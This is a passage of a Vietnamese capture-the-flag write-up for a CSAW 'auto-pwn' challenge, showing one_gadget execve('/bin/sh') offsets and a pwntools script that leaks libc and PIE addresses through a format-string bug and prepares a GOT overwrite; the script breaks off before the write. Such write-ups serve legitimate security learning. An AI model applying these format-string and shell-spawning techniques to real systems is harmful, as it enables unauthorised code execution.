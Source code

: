 ```
constraints:
  rax == NULL

0x3f35a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6b9f execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
"""
```
Tiếp theo là Lv3. Ở level này thì vẫn khá giống level2 lỗi format string xảy ra. Chỉ khác 1 tí là pie enable. Nên ta sẽ leak thêm pie và overwite got_puts như level2. Code khai thác lv3 (từ 46 -> 50):
```
from pwn import *

from pwn import *
import os

libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
passw = 'f24893e242786db36cb37939ad0a90ff'
port = 11046
context.clear(arch = 'amd64')

while(1):
    p = remote("auto-pwn.chal.csaw.io",port)
    p.sendlineafter("> ",passw)


    p.recvline()
    p.recvline()
    p.recvline()

    leak = p.recvuntil("-------------------------------------------------------------------\n")[:-68]
    open('challenge', 'wb').write(leak)
    os.system("cat challenge | xxd -r > done_file")



    elf = ELF("./done_file")
    addre_ret = 0x000000000401A98
    need = 0x1a98


    payload = b'%30$p__%35$p'

    p.sendline(payload)
    p.recvuntil("Report 1:\n")

    libc_base = int(p.recv(14),16) - libc.symbols['_IO_file_jumps']
    p.recvuntil("__")
    pie = int(p.recv(14),16) - 0x15a2
    success("libc_base: " + hex(libc_base))
    success("pie: " + hex(pie))

    one_gadget = libc_base + 0xe6c81
    got_fflush = pie + 0x36d0
    success("got_fflush: " + hex(got_fflush))
    got_puts = pie + 0x3698
```
